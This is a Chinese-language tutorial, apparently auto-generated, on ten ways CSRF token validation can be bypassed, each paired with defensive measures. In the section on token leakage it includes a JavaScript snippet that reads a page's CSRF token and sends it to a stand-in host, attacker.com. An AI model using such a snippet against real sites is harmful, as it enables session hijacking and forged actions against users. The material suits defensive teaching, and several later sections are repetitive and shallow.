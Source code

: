 ### CSRF防御Token验证机制的攻击技术

CSRF（Cross-Site Request Forgery，跨站请求伪造）是一种常见的Web安全漏洞，攻击者通过诱使用户在已认证的Web应用中执行非预期的操作，从而利用用户的身份进行恶意操作。为了防御CSRF攻击，开发者通常会采用CSRF Token验证机制。然而，尽管这种机制在大多数情况下是有效的，但仍然存在一些攻击手法可以绕过或利用CSRF Token验证机制。本文将详细说明这些攻击手法及其利用方式。

#### 1. CSRF Token泄露

**攻击手法：**
CSRF Token通常存储在用户的会话中，并在每次请求时通过表单或HTTP头发送到服务器。如果攻击者能够获取到用户的CSRF Token，就可以伪造请求并绕过Token验证机制。

**利用方式：**
- **XSS攻击：** 如果网站存在XSS（跨站脚本）漏洞，攻击者可以通过注入恶意脚本窃取用户的CSRF Token。例如，攻击者可以通过以下代码窃取Token：
  ```javascript
  var token = document.querySelector('input[name="csrf_token"]').value;
  fetch('https://attacker.com/steal?token=' + token);
  ```
- **网络嗅探：** 如果网站未使用HTTPS，攻击者可以通过网络嗅探获取用户的CSRF Token。
- **会话固定攻击：** 攻击者通过某种方式固定用户的会话ID，然后在用户登录后获取其CSRF Token。

**防御措施：**
- 使用HTTPS加密通信，防止网络嗅探。
- 实施严格的XSS防御措施，如输入验证、输出编码等。
- 定期更新会话ID，防止会话固定攻击。

#### 2. CSRF Token未绑定到用户会话

**攻击手法：**
如果CSRF Token未与用户会话绑定，攻击者可以使用自己的Token伪造请求，从而绕过Token验证机制。

**利用方式：**
- **Token重用：** 如果Token是全局唯一的，而不是与用户会话绑定的，攻击者可以获取一个有效的Token，并在多个请求中重复使用。
- **Token预测：** 如果Token生成算法存在缺陷，攻击者可以预测下一个Token，从而伪造请求。

**防御措施：**
- 确保CSRF Token与用户会话绑定，每个用户会话生成唯一的Token。
- 使用安全的随机数生成算法生成Token，防止Token预测。

#### 3. CSRF Token未在请求中正确验证

**攻击手法：**
如果服务器未正确验证CSRF Token，攻击者可以伪造请求并绕过Token验证机制。

**利用方式：**
- **Token未验证：** 服务器未对请求中的CSRF Token进行验证，攻击者可以发送不带Token的请求。
- **Token验证逻辑错误：** 服务器验证Token时存在逻辑错误，例如只验证Token是否存在，而不验证其有效性。

**防御措施：**
- 确保服务器对所有可能受CSRF攻击的请求进行严格的Token验证。
- 检查Token验证逻辑，确保其正确性和完整性。

#### 4. CSRF Token未在敏感操作中应用

**攻击手法：**
如果CSRF Token未在所有敏感操作中应用，攻击者可以绕过Token验证机制，直接发起恶意请求。

**利用方式：**
- **敏感操作未保护：** 例如，修改用户密码、转账等敏感操作未使用CSRF Token保护，攻击者可以直接发起这些请求。
- **Token应用不全面：** 例如，某些API接口未使用CSRF Token保护，攻击者可以通过这些接口发起恶意请求。

**防御措施：**
- 确保所有敏感操作都使用CSRF Token保护。
- 对所有可能受CSRF攻击的API接口进行Token验证。

#### 5. CSRF Token未在跨域请求中正确应用

**攻击手法：**
如果CSRF Token未在跨域请求中正确应用，攻击者可以通过跨域请求绕过Token验证机制。

**利用方式：**
- **CORS配置不当：** 如果服务器配置了宽松的CORS（跨域资源共享）策略，攻击者可以通过跨域请求发送恶意请求。
- **JSONP漏洞：** 如果网站使用JSONP（JSON with Padding）进行跨域请求，攻击者可以通过JSONP漏洞绕过CSRF Token验证。

**防御措施：**
- 配置严格的CORS策略，限制跨域请求的来源。
- 避免使用JSONP进行跨域请求，改用CORS或其他安全机制。

#### 6. CSRF Token未在AJAX请求中正确应用

**攻击手法：**
如果CSRF Token未在AJAX请求中正确应用，攻击者可以通过AJAX请求绕过Token验证机制。

**利用方式：**
- **AJAX请求未保护：** 如果AJAX请求未使用CSRF Token保护，攻击者可以通过AJAX请求发起恶意操作。
- **Token未正确发送：** 如果AJAX请求未正确发送CSRF Token，攻击者可以伪造请求。

**防御措施：**
- 确保所有AJAX请求都使用CSRF Token保护。
- 确保AJAX请求正确发送CSRF Token，例如通过HTTP头或请求体发送。

#### 7. CSRF Token未在文件上传中正确应用

**攻击手法：**
如果CSRF Token未在文件上传操作中正确应用，攻击者可以通过文件上传绕过Token验证机制。

**利用方式：**
- **文件上传未保护：** 如果文件上传操作未使用CSRF Token保护，攻击者可以通过文件上传发起恶意操作。
- **Token未正确发送：** 如果文件上传请求未正确发送CSRF Token，攻击者可以伪造请求。

**防御措施：**
- 确保所有文件上传操作都使用CSRF Token保护。
- 确保文件上传请求正确发送CSRF Token，例如通过HTTP头或请求体发送。

#### 8. CSRF Token未在重定向中正确应用

**攻击手法：**
如果CSRF Token未在重定向操作中正确应用，攻击者可以通过重定向绕过Token验证机制。

**利用方式：**
- **重定向未保护：** 如果重定向操作未使用CSRF Token保护，攻击者可以通过重定向发起恶意操作。
- **Token未正确传递：** 如果重定向请求未正确传递CSRF Token，攻击者可以伪造请求。

**防御措施：**
- 确保所有重定向操作都使用CSRF Token保护。
- 确保重定向请求正确传递CSRF Token，例如通过HTTP头或请求体发送。

#### 9. CSRF Token未在Cookie中正确应用

**攻击手法：**
如果CSRF Token未在Cookie中正确应用，攻击者可以通过Cookie绕过Token验证机制。

**利用方式：**
- **Cookie未保护：** 如果CSRF Token存储在Cookie中，但未正确保护，攻击者可以通过Cookie发起恶意操作。
- **Token未正确验证：** 如果服务器未正确验证Cookie中的CSRF Token，攻击者可以伪造请求。

**防御措施：**
- 确保CSRF Token在Cookie中正确存储和保护，例如使用HttpOnly和Secure标志。
- 确保服务器正确验证Cookie中的CSRF Token。

#### 10. CSRF Token未在表单中正确应用

**攻击手法：**
如果CSRF Token未在表单中正确应用，攻击者可以通过表单提交绕过Token验证机制。

**利用方式：**
- **表单未保护：** 如果表单未使用CSRF Token保护，攻击者可以通过表单提交发起恶意操作。
- **Token未正确发送：** 如果表单提交未正确发送CSRF Token，攻击者可以伪造请求。

**防御措施：**
- 确保所有表单都使用CSRF Token保护。
- 确保表单提交正确发送CSRF Token，例如通过隐藏字段或HTTP头发送。

### 结论

CSRF Token验证机制是防御CSRF攻击的有效手段，但其安全性依赖于正确的实现和应用。开发者需要确保CSRF Token与用户会话绑定、在所有敏感操作中应用、正确验证Token，并防止Token泄露。通过采取这些措施，可以大大降低CSRF攻击的风险，保护Web应用的安全。

---

*文档生成时间: 2025-03-12 09:28:17*






















